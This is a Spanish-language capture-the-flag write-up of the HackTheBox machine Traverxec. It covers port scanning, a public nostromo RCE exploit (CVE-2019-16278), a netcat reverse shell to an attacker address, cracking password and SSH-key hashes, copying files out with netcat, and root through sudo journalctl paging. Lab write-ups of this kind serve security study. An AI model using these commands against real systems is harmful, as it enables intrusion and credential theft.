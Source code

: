 ```yaml
---
title: HackTheBox - Traverxec
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE (CVE-2019-16278)', 'Information Leakage', Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Traverxec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Traverxec Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **RCE (CVE-2019-16278), Information Leakage, Misconfiguration**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Traverxec`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Traverxec/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Traverxec/02-versions.png)



    * Al buscar por vulnerabilidades de **`nostromo 1.9.6`** encontramos [CVE-2019-16278](https://www.exploit-db.com/exploits/47837), con el cual logramos un **RCE (Remote Command Execution)**

    ```bash
    python2 nostromo_rce.py 10.10.10.165 80 'id'
    <SNIP>
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

c. Como ya podemos ejecutar comandos entablamos una **`reverse shell`**, nos ponemos en escucha con **`nc`** previamente.

```bash
python2 nostromo_rce.py 10.10.10.165 80 'nc -e bash 10.10.14.115 443'
----------------------------------------------------------------------
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.115] from (UNKNOWN) [10.10.10.165] 54542
script /dev/null -c bash
www-data@traverxec:/usr/bin$
```

### Escalada de Privilegios 💹

a. Existe **david** como usuario en el sistema

```bash
www-data@traverxec:/home$ ls 
david
```

b. Investigamos por archivos que tengan como propietario al usuario **www-data**

```bash
find / -user www-data 2>/dev/null | grep -vE "proc"

<SNIP>
/var/nostromo/logs
/var/nostromo/logs/nhttpd.pid
```

* En el directorio **/var/nostromo/conf** podemos ver archivos de configuración de **nostromo**

    * **nhttpd.conf**

        ```
        # MAIN [MANDATORY]
        servername              traverxec.htb
        serverlisten            *
        serveradmin             david@traverxec.htb
        serverroot              /var/nostromo
        servermimes             conf/mimes
        docroot                 /var/nostromo/htdocs
        docindex                index.html

        # LOGS [OPTIONAL]
        logpid                  logs/nhttpd.pid

        # SETUID [RECOMMENDED]
        user                    www-data

        # BASIC AUTHENTICATION [OPTIONAL]
        htaccess                .htaccess
        htpasswd                /var/nostromo/conf/.htpasswd

        # ALIASES [OPTIONAL]
        /icons                  /var/nostromo/icons

        # HOMEDIRS [OPTIONAL]
        homedirs                /home
        homedirs_public         public_www
        ```

        > Añadimos el dominio **traverxec.htb** a nuestro archivo **/etc/hosts**
        {: .prompt-info }

* En el archivo **.htpasswd** vemos la contraseña del usuario **david**

    ```bash
    www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
    ```
    > Al crackearla con **john** vemos que en texto plano es **`Nowonly4me`**

c. Si leemos un poco de documentación sobre [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), observamos que podemos acceder directorios de esta forma **`~[Directorio]`** y en caso de necesitar auntenticación debemos acceder a **.htaccess**

* Después de intentar de varias formas, ninguna funciona

    ```bash
    http://david:Nowonly4me@traverxec.htb/~david/
    http://traverxec.htb/~david/
    http://traverxec.htb/~david/.htaccess
    http://david:Nowonly4me@traverxec.htb/~david/.htaccess
    ```


    ![](/assets/images/HTB/Easy/Traverxec/03-message.png)

    > Mensaje de la página web.

d. En el archivo **nhttpd.conf** existe la configuración 

```bash
homedirs                /home
homedirs_public         public_www
```

* Esto nos indica que los directorios a los que podemos acceder con **nostromo** son todos los que están en **home** (Direcctorio del usuario **david**) y que tiene un directorio accesible **public_www**

    ```bash
    www-data@traverxec:/home$ cd david/public_www
    www-data@traverxec:/home/david/public_www$ ls
    index.html  protected-file-area
    www-data@traverxec:/home/david/public_www$ cd protected-file-area/
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls
    backup-ssh-identity-files.tgz
    ```

e. Tranferimos el archivo **backup-ssh-identity-files.tgz** a nuestra **Máquina Atacante**

* **Máquina Atacante:** nc -lvnp 4444 > backup.tgz
* **Máquina Víctima:** nc <tun0 IP> 4444 < backup-ssh-identity-files.tgz

Descomprimos el fichero **tar -xzvf backup.tgz** y encontramos los pares de claves **RSA** del usuario **david**, pero la clave está encriptada, así que extraemos el **hash** con **`ssh2john id_rsa > hash`**

```bash
john hash -w=/home/kali/Desktop/rockyou.txt
id_rsa:hunter
```
> Contraseña en texto claro del fichero **id_rsa**

f. Nos autenticamos en el servicio **ssh** y vemos que tenemos un directorio **/bin**

```bash
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
```

* **server-status.sh**

    ```bash
    <SNIP>
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
    ```
    > Tenemos permiso para ejecutar **journalctl** como **root**

g. Para "forzar" la paginación de **journalctl** y podemos ejecutar comandos tenemos que minizar el tamaño de nuestra terminal

![](/assets/images/HTB/Easy/Traverxec/04-binary.png)

Por último leemos las **flags**

```bash
root@traverxec:/home/david/bin# cat /root/root.txt 
304e9063bbeecd398b1e260aeb580033
root@traverxec:/home/david/bin# cat /home/david/user.txt 
8340b5984d36a505da9adc72f1681260
```